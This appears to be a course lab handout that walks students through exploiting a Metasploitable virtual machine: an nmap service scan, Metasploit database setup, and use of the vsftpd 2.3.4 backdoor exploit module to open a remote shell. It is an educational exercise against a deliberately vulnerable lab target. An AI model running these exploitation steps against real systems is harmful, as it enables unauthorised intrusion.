# Lab 5 - Vulnerability Exploitation

## **Lab Preparation**

Ensure that both the Kali and the metasploitable machines are powered on and on the
same network. Verify connectivity between them by using the ping command.

 1. Run nmap against the metasploitable machine using the following command.

	- ```sudo nmap -sV <metasploitable IP> -vvv``` 

	- Make note of open ports and services.

	- Make note of what port VSFTPD service is running.

 2. Start the Kali PostgreSQL service (which Metasploit uses as its backend) by
running the following command.

	- ```sudo systemctl start postgresql```

 3. Initialize the Metasploit PostgreSQL database by running the following command.

	- ```sudo msfdb init```

 4. Launch msfconsole

	- ```msfconsole```

 5. Check the database connectivity using the following command.

	- ```db_status``` (it should say connected).

 6. Explore the search command by typing "help search".

 7. Search for an VSFTPD exploit.

	- ```search type:exploit name:vsftp```

 8. How many exploits were found?

 9. Select the found exploit by typing the following command.

	- ```use exploit/unix/ftp/vsftpd_234_backdoor```

 10. Review the options of the exploit by typing the following command.

	 - ```show options```

 11. Set the remote host and ports by using the following commands.

	 - ```set RHOSTS <Metasploitable IP Address>```

	 - ```set RPORT <VSFTPD port number>```

 12. Verify what payloads are available by using the "show payloads" command.

 13. How many payloads are available?

 14. Run the exploit by using the following command.

	 - ```exploit```

 15. Once the shell is opened type ```hostname```, followed by ```ifconfig```. Include screenshot of output.
